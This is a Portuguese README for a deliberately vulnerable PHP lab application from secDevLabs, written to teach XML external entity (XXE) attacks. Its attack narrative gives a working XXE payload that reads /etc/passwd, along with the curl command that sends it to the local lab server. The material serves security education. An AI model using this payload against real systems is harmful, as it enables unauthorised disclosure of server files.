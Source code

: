 # ViniJR Blog

[Access content in English](README.md)

<p align="center">
    <img src="images/blog-fe.png"/>
</p>

Este é um aplicativo web PHP simples que contém um exemplo de uma vulnerabilidade de configuração incorreta de segurança (XXE) e o objetivo principal deste aplicativo é descrever como um usuário mal-intencionado pode explorá-lo. 

## Index

- [Definição](#o-que-é-XXE)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)


## O que é XXE?

Muitos processadores XML mais antigos ou mal configurados avaliam referências de entidades externas em documentos XML. Entidades externas podem ser usadas para divulgar arquivos internos usando o manipulador de URI de arquivo, compartilhamentos de arquivos internos, verificação de porta interna, execução remota de código e ataques de negação de serviço. 

O principal objetivo deste aplicativo é discutir como as vulnerabilidades **XXE** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do secDevLabs sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a5/vinijr-blog
```

```sh
make install
```

Depois é só visitar [localhost:10004][app] ! 😆

## Conheça o app ⚽️

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Tente enviar uma mensagem ao ViniJR.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### Campo de entrada não tratado permite que um invasor recupere informações confidenciais

Após analisar as entradas do aplicativo, é possível identificar que a seção "ENTRE EM CONTATO" permite que os usuários enviem mensagens para o servidor, conforme mostra a figura a seguir: 

<img src="images/attack-1.png" align="center"/>

Usar o proxy [Burp Suite](https://portswigger.net/burp) para interceptar esta solicitação (POST para contact.php) revela que a mensagem está sendo construída usando um XML (se você precisar de ajuda para configurar seu proxy, você deve verifique este [guia](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)): 

<img src="images/attack-2.png" align="center"/>

Para replicar este POST usando [curl](https://curl.haxx.se/), crie o seguinte arquivo `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E depois rode

```sh
curl -d @payload.xml localhost:10004/contact.php ; echo
```

Verificando o código fonte do [arquivo](../vinijr-blog/app/contact.php), é possível ver como esse XML é carregado no lado do servidor:

<img src="images/attack-3.png" align="center"/>

### 🔥

Como nenhuma validação está sendo usada para evitar que [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) sejam enviados para o arquivo PHP, um invasor pode criar o seguinte `evilxml.xml` para executar um XXE :

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

E, como mostra a imagem a seguir, é possível perceber que o ataque é bem-sucedido e as informações confidenciais são recuperadas do servidor que hospeda o aplicativo vulnerável:

```sh
curl -d @evilxml.xml localhost:10004/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Extrair dados do servidor através do método mostrado acima.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10004
[secdevlabs]: https://github.com/globocom/secDevLabs
